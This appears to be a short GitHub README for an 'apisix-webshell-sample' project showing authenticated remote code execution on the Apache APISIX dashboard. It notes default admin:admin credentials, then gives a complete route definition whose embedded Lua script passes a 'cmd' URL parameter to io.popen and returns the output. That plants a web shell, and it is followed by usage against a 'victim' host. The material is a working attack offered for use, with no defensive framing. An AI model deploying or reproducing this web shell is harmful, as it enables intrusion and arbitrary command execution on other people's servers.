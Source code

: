 # apisix-webshell-sample
apisix admin dashboard script RCE web shell sample

## APISIX - Authed RCE

APISIX Dashboard default at port 9080

and you can have default credit admin:admin to get admin login.

### create route and edit like this.

```
{
  "uri": "/rceEndpoint",
  "name": "RCE{not same}",
  "script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f =        assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
  "upstream": {
    "nodes": [
      {
        "host": "example.com",
        "port": 80,
        "weight": 1
      }
    ],
    "type": "roundrobin",
    "hash_on": "vars",
    "scheme": "http",
    "pass_host": "pass"
  },
  "status": 1
}
```

and using Http://victim:port/rceEndpoint?cmd={your_command}

to get an shell.

.....to be continued.

